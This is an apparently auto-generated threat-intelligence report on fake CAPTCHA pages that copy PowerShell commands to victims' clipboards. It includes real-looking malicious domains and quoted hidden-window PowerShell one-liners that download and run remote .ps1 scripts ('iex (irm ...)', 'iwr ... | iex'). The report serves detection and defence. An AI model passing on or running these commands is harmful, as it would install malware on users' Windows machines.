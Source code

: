 # ClickGrab Threat Analysis Report - 2025-06-07

*Generated on 2025-06-17 08:08:43*

## Executive Summary

- **Total sites analyzed**: 31
- **Sites with malicious content**: 18
- **Unique domains encountered**: 29
- **Total URLs extracted**: 141
- **PowerShell download attempts**: 20
- **Clipboard manipulation instances**: 34

## Domain Analysis

### Most Frequently Encountered Domains

- **www.google.com**: 29 occurrences
- **use.fontawesome.com**: 17 occurrences
- **staplebrokenmetaliyro.blogspot.com**: 15 occurrences
- **cdnjs.cloudflare.com**: 13 occurrences
- **www.webgo.de**: 10 occurrences
- **draft.blogger.com**: 9 occurrences
- **t.me**: 7 occurrences
- **www.w3.org**: 6 occurrences
- **browser.certif-update.website**: 4 occurrences
- **svetvip.ru**: 4 occurrences
- **www.blogger.com**: 4 occurrences
- **api.whatsapp.com**: 3 occurrences
- **mc.yandex.ru**: 2 occurrences
- **www.blogblog.com**: 2 occurrences
- **www.offset.com**: 2 occurrences

## URL Pattern Analysis

### reCAPTCHA imagery
*17 occurrences across 1 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (17 times)

### Font resources
*30 occurrences across 2 distinct URLs*

- `https://use.fontawesome.com/releases/v5.0.0/css/all.css` (17 times)
- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (13 times)

### CDN hosted scripts
*14 occurrences across 2 distinct URLs*

- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (13 times)
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1` (1 times)

### Google resources
*31 occurrences across 9 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (17 times)
- `https://www.google.com/intl/en/policies/privacy/` (4 times)
- `https://www.google.com/intl/en/policies/terms/` (4 times)
- `https://www.google.com` (1 times)
- `http://www.google.com/2005/gml/b` (1 times)
- *...and 4 more distinct URLs*

## Clipboard Manipulation Analysis

Detected clipboard manipulation in **34** instances.

### Document.Execcommand Copy
Found in **34** snippets (100.0% of clipboard code)

**Examples:**

```javascript
document.execCommand("copy")
```

### Textarea Manipulation
Found in **34** snippets (100.0% of clipboard code)

## Attack Pattern Reconstruction

### Malicious Command Analysis

Identified **4** malicious command preparations.

**Command 1:**
```powershell
powershell 
```

**Context:**
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```

**Command 2:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 3:**
```powershell
powershell 
```

**Context:**
```javascript
...idden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 4:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " +...
```

### Malicious Download Sources

- `https://aatox.com/verify/45.ps1`
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1`
- `https://yogasitesdev.wpengine.com/2/15.ps1`

## Key Findings

1. **Prevalence**: 58.1% of analyzed sites contained malicious content
2. **Primary Attack Vector**: Fake CAPTCHA verification leading to clipboard hijacking
3. **Target Platform**: Windows systems via PowerShell execution
4. **Social Engineering**: Sophisticated UI mimicking legitimate Google reCAPTCHA

## Recommendations

1. **User Education**: Warn users about fake CAPTCHA verification schemes
2. **Clipboard Monitoring**: Implement clipboard monitoring for suspicious PowerShell commands
3. **URL Filtering**: Block known malicious domains identified in this analysis
4. **PowerShell Execution Policy**: Restrict PowerShell execution in corporate environments

